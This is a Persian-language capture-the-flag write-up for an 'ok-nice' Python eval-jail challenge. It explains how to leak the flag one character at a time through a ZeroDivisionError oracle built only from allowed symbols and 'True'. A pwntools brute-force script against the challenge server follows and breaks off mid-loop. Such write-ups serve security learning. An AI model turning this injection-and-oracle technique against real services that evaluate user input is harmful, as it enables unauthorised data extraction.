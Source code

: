     ========= Allowed special chars =========
    (
    )
    *
    +
    ,
    -
    /
    :
    ;
    ?
    @
    [
    \
    ]
    ^
    `
    |
    ```


## راه حل

ورودی ما به تابع `eval` داده میشه و دستور `eval` به خودی خود چیزی نمایش نمیده.  
درنتیجه دستور ما، باید شامل توابعی نظیر `print` باشد تا خروجی را نمایش دهد، اما متاسفانه با توجه به اینکه ما نمیتونیم از فاصله و نقطه و حرف `t` استفاده کنیم، پس استفاده از تابع `print` و نظیرهم کنسل میشه 😕


بعد کلی آزمون و خطا، ایده `ZeroDivisionError` به ذهنم اومد، چون سوال وقتی تابع `eval` به ارور بخوره `error` چاپ میشه و از این طریق میتونیم حروف فلگ رو بدست بیاوریم. چطور؟   
میدونیم تو پایتون اگر عددی تقسیم بر صفر شه، به ارور برمیخوریم. پس داریم: 


```python
1/0  => ZeroDivisionError 
```

همچنین میدونیم تو پایتون `True` میتواند بعنوان عدد `1`  نیز لحاظ شود و داریم:

```py
flag[1] == flag[True]
flag[2] == flag[True+True]
```

در نتیجه خواهیم داشت: 

```python
True / ( ord('t') - 116 )  => ZeroDivisionError 
True / ( ord(flag[True+True]) - 116 )  => ZeroDivisionError 
```

در ادامه کافیست یک اسکریپت بنویسیم و اینکار رو اتومیت کنیم و فلگ را بدست بیاریم

```python title="solve.py" linenums="1"
from Crypto.Util.number import *
from pwn import *

context.log_level = "critical"
# ncat --proxy-type socks5 --proxy 127.0.0.1:2080 ok-nice.chal.imaginaryctf.org 1337
#context.proxy = (socks.SOCKS4, "127.0.0.1", 2080)

int2T = lambda n: '+'.join(['True']*n)

p = remote(*'ok-nice.chal.imaginaryctf.org 1337'.split())
for i in range(1, 30):
    for ch in range(0x20, 0x80):
        inp = f"True/(ord(flag[{int2T(i)}])-({int2T(ch)}))"
        p.sendlineafter(b'Enter input: ', inp.encode())
```